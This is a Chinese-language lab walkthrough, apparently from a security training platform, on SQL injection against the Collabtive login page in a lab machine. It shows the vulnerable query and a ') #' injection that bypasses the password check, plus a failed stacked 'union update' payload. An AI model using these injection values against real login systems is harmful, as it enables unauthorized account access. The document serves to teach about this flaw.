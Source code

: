 查看登陆验证文件：

```
sudo vim /var/www/SQL/Collabtive/include/class.user.php
```
>设置行号 :set number

>	查找   :/keyword

找到其中第`375`行

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429496701782?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

```
$sel1 = mysql_query ("SELECT ID, name, locale, lastlogin, gender, FROM user WHERE (name = '$user' OR email = '$user') AND pass = '$pass'");
```

这一句就是我们登录时，后台的sql语句；我们可以构造一个语句，在不知道密码的情况下登陆；

```
 $sel1 = mysql_query ("SELECT ID, name, locale, lastlogin, gender, FROM user WHERE (name = '$user ') #' OR email = '$user') AND pass = '$pass'");
```
修改完后重启一下服务器：

```
sudo sudo service apache2 restart
```

我们在`$user `后面加上`) #`  这样就会只验证用户名，后面的会被`#`注释

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429497033988?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

点击登陆以后，我们就可以绕过密码直接登录：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429497124130?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)


思考：

> 你是否可以找到一个方法来修改数据库（仍然使用上述SQL查询）？

>例如，你能添加一个新的登陆用户，或删除现有的用户？显然，上述的SQL语句是一个查询只陈述，并且不能更新数据库。但是，使用SQL注入，你可以把上面的语句分割为两个语句，后面是更新语句。

>请试试这个方法，看看是否可以成功地更新数据库？

答案：

> 其实，我们都无法达到更新的目标。这是因为在MySQL中实现的特定的防御机制。在报告中，你应该告诉我们你有什么企图以修改数据库。你应该找出原因的攻击失败，是什么机制在MySQL中阻止这种攻击。

登陆用户名：

```
admin') union update user set name='test' #
```

登陆密码：随意的字符

登陆失败

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429497357973?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)
